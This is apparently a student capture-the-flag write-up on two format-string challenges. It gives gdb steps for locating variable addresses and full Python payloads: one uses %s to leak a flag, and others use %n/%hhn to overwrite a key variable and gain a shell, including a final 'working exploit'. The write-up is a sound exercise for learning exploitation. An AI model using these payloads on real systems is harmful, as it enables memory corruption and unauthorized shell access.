

## Challenge 1
<!--
checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

Análise do source code
Linha do código onde está a vulnerabilidade
- printf(buffer). buffer's contents from the user's input, i.e. controlled by the user. This is vulnerable to a format string attack. We can easily supply a format string that prints the contents of the program's memory.
- This vulnerability allows the printing of the program's memory, the stack and heap, and allows writing on it.
- To read the flag, we need to pass the address of the flag to printf. Then, by using the %s format string, we can print the flag's contents. We need make %s read the address of the flag that we passed, as we did in the seedlabs guide.

In checksec, we can see that PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

b main
run
next
p &flag

Using p &flag, we can find the address of the flag.
0x804c060

Or we can run python3 exploit_example.py which pauses the execution

Then we can attach in another terminal to the process by doing
gdb attach <pid>
p &flag
0x804c060

Since PIE is disabled, we can use this same address for the server, and it works.
-->
```python

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


p.recvuntil(b"got:")
p.sendline(content)
p.interactive()

```


## Challenge 2

3 main tries
- normal one using actual address with 0x20
- replacing 0xff for 0x20 (did not work on the server, because it's reliant on knowing the buffer address)
- solution: using 0x1F and 0x21


<!--
checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)


Análise source code:
- The vulnerability is the same, it's the line `printf(buffer)`. buffer is given/controlled by user input. We can provide a format string as input. This allows us to print the contents of the program's memory, as well as writing on the memory.
- In this challenge, the flag is not in memory when the vulnerable printf(buffer) executes. This means we cannot simply read the flag from memory. However, in this case, a shell program is launched if a certain variable in the program's heap has a defined value. So, we just need to change the value of that variable (key) to be the one that passes the if clause. In that case, we'll gain access to the shell and be able to read the contents of the file flag.txt, by doing "cat flag.txt".

The value to pass the if clause is "0xbeef", which is 48879 in decimal.
To write values in the program's memory using a format string vulnerability, we must use %n, which prints the number of characters read until that point on the string. So we need to print 48879 characters in that printf. Then, we just do as in the guide. We need to know the address of the "key" variable. If %n sees that address as the argument, it will change the value of that variable with the characters read.

We can copy the python file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally (LOCAL = True)
We need to also change the receive until to be until we receive a '...' sequence, since it is different in this challenge.

We can do the same as before. First run the program using python exploit.py in a terminal, and then attaching to that process using gdb attach <pid>

Then inside gdb, we can simply do:

gdb-peda$ p &key
$1 = (int *) 0x804b320 <key>

and we have read the address of the key variable (inside the heap).
Since there is no PIE, we know this address will be fixed.


%48879x%n


Put:
any 4 bytes at the beginning of the string
the 4 bytes for the address of the variable "key"
%(bignumber)x   -> will read the first 4 bytes of the string as an argument
%n  -> will read the address of the variable "key" as an argument, effectively writing the number of characters printed until now in that variable

48879 - 8 = 48871

"0000<addr>%48871x%n"

"ABCD<key_addr>%48871x%n"


Since this was not working, we tried this input:


s = "ABCD" + "%x" * 8
fmt = (s).encode('latin-1')
content[0: len(fmt)] = fmt

It resulted in this output
You gave me this:ABCD4443424178257825782578257825782578257825000
It shows that the first %x reads the "ABCD", as we expected, the rest is just reading the "%x"

Not understanding how this works, we tested several other things. We came to the conclusion that the address of the variable had the value 0x20, which represents a space. The problem is that scanf stops reading after receiving a space, so our input did not get fully sent.


SO THE SOLUTION WE CAME UP FOR THIS WAS:
writing the value of the address of the variable key (which had a space on it) by using %n and not directly through the input

In task 3.C of the guide of format string vulnerabilities, it is referenced that we can use %hn to modify a one byte memory space. We can use this to change the value of the address of the variable key.
So instead of inputting the exact value of the address, we replace 0x20 by, for example, 0xff, and then overwrite it using %hn with the correct value 0x20.

But for this, we need to pass the exact address of the byte that we want to change. The address of the buffer is 0xffffd160 so we can pass that on the input. Since we need to pass the exact address of the byte, we can calculate it.


Notes
address of buffer: 0xffffd160
2^16 = 65536

payload:
ABCD<buffer_addr - x><key_addr w/o 0x20>

-->
```python
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd160 + 8

content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')
content[8:12] = ("ABCD").encode('latin-1')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[12:16] = (key_addr).to_bytes(4,byteorder='little')

s = "%496x%hhn%48367x%n"

fmt  = (s).encode('latin-1')
content[16:16 + len(fmt)] = fmt
```
Above is a try to make the address of the variable key be changed to 0x20 and be able to write the value 48879 in it.
Does not work because the content would have 34 bytes.

In order to reduce the size, we tried doing this:

```python
N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd1c0 + 8
content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[8:12] = (key_addr).to_bytes(4,byteorder='little')

s = "%20x%hhn%1$48847x%n"

fmt  = (s).encode('latin-1')
content[12:12 + len(fmt)] = fmt
```

We managed to get the flag with this but only locally. This hardcodes the buffer index which makes it not work on the server.

Another possible solution came up

<!--
Spilling values from other addresses
This new idea is to use an address that ends with 0x19, for example, to make the %n write the value 48879 in the address of the variable key.

0xbe = 190
0xef00 = 61184

-->
Solution that did not work.
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b319

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of failed attempt
Stupid forgot 0x1F and used 0x19


-->
Working exploit:
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b31F

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of key value
- screenshot of flag placeholder

We don't need to worry about the rest of the values in the key variable (the bytes 0x22, 0x23), because these will be empty
(comes from key = 0)
-->

This also works as expected in the server.


